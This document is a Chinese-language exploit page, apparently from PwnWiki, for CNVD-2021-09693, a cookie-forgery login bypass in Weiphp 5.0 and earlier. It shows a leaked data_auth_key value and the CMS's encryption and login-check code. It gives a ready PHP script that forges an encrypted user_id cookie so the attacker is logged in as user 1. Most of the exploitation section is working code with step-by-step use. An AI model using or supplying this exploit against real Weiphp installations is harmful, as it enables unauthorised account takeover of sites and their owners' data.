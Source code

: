 <languages  />

<translate>

漏洞影響
--------

</translate>

    Weiphp <= 5.0

<translate>

漏洞利用
--------

</translate>

<translate> 首先需要得到數據庫配置文件中的`data_auth_key`密鑰 </translate>

![](Weiphp-15.png "Weiphp-15.png")

<translate> 得到這個配置文件可參考 [CNVD-2020-68596 Weiphp5.0 前台文件任意讀取漏洞](https://www.pwnwiki.org/index.php?title=CNVD-2020-68596_Weiphp5.0_%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AE%80%E5%8F%96%E6%BC%8F%E6%B4%9E) </translate>

    'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'

<translate> 全局查找使用了這個密鑰的地方: </translate>

![](Weiphp-16.png "Weiphp-16.png")

<translate> 找到了跟據這個密鑰的加密方法和解密方法 </translate>

<translate> 加密方法 `think_encrypt` </translate>


    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

<translate> 解密方法 `think_decrypt` </translate>

    function think_decrypt($data, $key = '')
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);
        $data = str_replace(array(
            '-',
            '_'
        ), array(
            '+',
            '/'
        ), $data);
        $mod4 = strlen($data) % 4;
        if ($mod4) {
            $data .= substr('====', $mod4);
        }
        $data = base64_decode($data);
        $expire = substr($data, 0, 10);
        $data = substr($data, 10);

        if ($expire > 0 && $expire < time()) {
            return '';
        }
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = $str = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        for ($i = 0; $i < $len; $i++) {
            if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
                $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
            } else {
                $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
            }
        }
        return base64_decode($str);
    }

<translate> 在文件 `application\common.php` 中含有使用解密方法的代碼，用於做身份驗證 </translate>

    function is_login()
    {
        $user = session('user_auth');
        if (empty($user)) {
            $cookie_uid = cookie('user_id');
            if (!empty($cookie_uid)) {
                $uid = think_decrypt($cookie_uid);
                $userinfo = getUserInfo($uid);
                D('common/User')->autoLogin($userinfo);

                $user = session('user_auth');
            }
        }
        if (empty($user)) {
            return 0;
        } else {
            return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
        }
    }

<translate> 根據這裡得到的代碼，可以知道當user_Id=1時,會解密密鑰後判斷是否正確，如果正確則可以登錄系統

我們在本地使用加密代碼加密user_id=1得到的cookie則可以登錄系統 </translate>

    <?php
    show_source(__FILE__);
    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
        $key = md5($key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

    echo 'user_id = ' . think_encrypt($_GET['user_id']);
    ?>

<translate> 添加`cookie: user_id=xxxxxxxx`即可成功登錄 </translate>

![](Weiphp-18.png "Weiphp-18.png")

<translate>

參考
----

</translate> <http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html>